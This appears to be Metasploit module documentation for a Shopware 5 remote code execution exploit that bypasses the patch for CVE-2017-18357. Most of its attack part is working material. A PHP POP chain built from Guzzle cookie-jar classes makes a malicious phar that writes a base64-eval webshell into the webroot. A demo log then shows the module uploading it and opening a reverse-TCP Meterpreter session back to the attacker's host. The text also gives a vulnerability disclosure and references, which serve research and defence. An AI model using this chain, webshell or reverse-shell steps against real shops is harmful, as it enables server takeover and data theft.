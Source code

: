 ## Background

Shopware 5 is the next generation of open source e-commerce software made in Germany. Based on bleeding edge technologies like Symfony 3, Doctrine 2 & Zend Framework Shopware comes as the perfect platform for your next e-commerce project. Furthermore Shopware 5 provides an event-driven plugin system and an advanced hook system, giving you the ability to customize every part of the platform..

In the createInstanceFromNamedArguments method, a PHP object instantiation vulnerability was discovered by [@KarimOuerghemmi](https://twitter.com/KarimOuerghemmi) of RIPS who rated the bug as a CVSS 3.6 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) due to the ability of leveraging an XXE primitive. Later on, I bypassed the whitelist patch and found an RCE primitive via PHP object injection. Note that authentication is required to exploit this vulnerability.

This vulnerability is a bypass for CVE-2017-18357 and was tested on Shopware git branches 5.6, 5.5, 5.4, 5.3.

## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Debian GNU/Linux 9 (stretch) x64
- MariaDB latest
- Apache2 w/ mod rewrite / PHP 7.2.15 w/ zip, gd, ctype, curl, dom, hash, iconv, json, session, mbstring, simplexml, xml, pdo_mysql and fileinfo

For installation instructions, please refer to the [Shopware installation guide](https://github.com/shopware/shopware#installation-via-git).

## References

- [https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)

## Notes

The recommended CVSS score is 7.5 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N).

## POP Chain

In order to pivot from an object instantiation bug to a object injection primitive, we need something worth while deserializing:

```php
<?php

namespace GuzzleHttp\Cookie;

// pop chain
interface ToArrayInterface {}

class SetCookie implements ToArrayInterface {
    private $data;

    public function __construct(array $data = []){
        $this->data = $data;
    }
}

class CookieJar implements ToArrayInterface {
    private $cookies;

    public function setCookie(SetCookie $cookie){
        $this->cookies = array($cookie);
    }
}

class FileCookieJar extends CookieJar {
    private $filename;

    public function __construct($bd_file){
        $this->filename = $bd_file;
        $this->setCookie(new SetCookie(array(
            "Value" => '<?php eval(base64_decode($_SERVER[HTTP_SI])); ?>',
            "Expires" => true,
            "Discard" => false,
        )));
    }
}

$phar = new \Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$o = new FileCookieJar("/var/www/html/media/image/si.php");
$phar->setMetadata($o);
$phar->stopBuffering();
?>
```

## Credit

Steven Seeley (mr_me) of Source Incite

## Demo

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/shopware.rc 
[*] Processing scripts/shopware.rc for ERB directives.
resource (scripts/shopware.rc)> use exploit/multi/http/shopware_createinstancefromnamedarguments_rce
resource (scripts/shopware.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (scripts/shopware.rc)> set LHOST 192.168.23.1
LHOST => 192.168.23.1
resource (scripts/shopware.rc)> set RHOSTS 192.168.23.164
RHOSTS => 192.168.23.164
resource (scripts/shopware.rc)> set RPORT 8080
RPORT => 8080
resource (scripts/shopware.rc)> check
[+] 192.168.23.164:8080 - The target is vulnerable.
resource (scripts/shopware.rc)> exploit
[*] Started reverse TCP handler on 192.168.23.1:4444 
[+] Stage 1 - logged in with demo: SHOPWAREBACKEND=lpmck6d7nrh23ki2fsgeopci3p;
[+] Stage 2 - leaked the webroot: /var/www/html
[+] Stage 3 - leaked the CSRF token: SRJELMCxJfEr2RiMlqS8xmOdidI5Hr
[+] Stage 4 - generated our phar
[+] Stage 5 - uploaded phar
[+] Stage 6 - leaked phar location: media/image/6b/7e/0c/eiuzuoii.jpg
[+] Stage 7 - triggered object instantiation!
[*] Sending stage (38247 bytes) to 192.168.23.174
[*] Meterpreter session 1 opened (192.168.23.1:4444 -> 192.168.23.174:34190) at 2019-05-09 21:11:50 -0500
[+] Deleted rguktpcw.php
[+] Deleted image/6b/7e/0c/eiuzuoii.jpg

meterpreter > sysinfo
Computer    : 45835d649528
OS          : Linux 45835d649528 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
Meterpreter : php/linux
meterpreter > 
```